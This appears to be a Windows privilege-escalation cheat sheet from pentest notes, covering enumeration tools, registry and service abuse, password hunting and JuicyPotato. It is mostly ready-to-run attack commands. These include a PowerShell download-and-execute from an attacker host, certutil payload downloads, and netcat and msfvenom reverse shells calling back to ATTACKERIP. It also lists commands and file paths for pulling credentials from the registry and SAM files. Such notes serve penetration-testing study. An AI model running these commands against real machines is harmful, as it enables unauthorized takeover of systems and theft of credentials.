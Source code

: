## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/


```
Run all checks while avoiding time-consuming searches:
.\winPEASany.exe quiet cmd fast
winPEAS.exe -a
```
### SeatBelt
```
//system info
SeatBelt.exe system

// user info
SeatBelt.exe user
```

### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```
## Registry exploits

### Autorun

if you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```
 .\winPEASany.exe quiet applicationsinfo
 
 //or use requery
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 
 //and then use accesschk.exe to verify the permissions on each one:
 
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
 

```
 Exploit:
 ```
 copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
 ```

### AlwaysInstallElevated

```
// Use winPEAS to see if both registry values are set:
.\winPEASany.exe quiet windowscreds

// Alternatively, verify the values manually: (both should return 1)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Exploit:
```
// Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

//Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
## Passwords Hunting

### Registries
Plenty of programs store configuration options in the Windows Registry. It is always worth searching the Registry for passwords.
```
// Use winPEAS to check common password locations:
.\winPEASany.exe quiet filesinfo userinfo

//manual check
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Saved Creds
Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement
 ```
.\winPEASany.exe quiet cmd windowscreds
// We can verify this manually using the following command:
cmdkey /list

```
Exploit:
```
//We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
````


### Configuration files

```
//Use winPEAS to search for common files which may contain credentials:

.\winPEASany.exe quiet cmd searchfast filesinfo

//Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:
findstr /si password *.xml *.ini *.txt

```
### SAM and SYSTEM files
Windows stores password hashes in the Security Account Manager (SAM).The hashes are encrypted with a key which can be found in a
file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.
```
//try to read these files that contain user password hash
# Usually %SYSTEMROOT% = C:\Windows
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\system
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\system

```

## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```
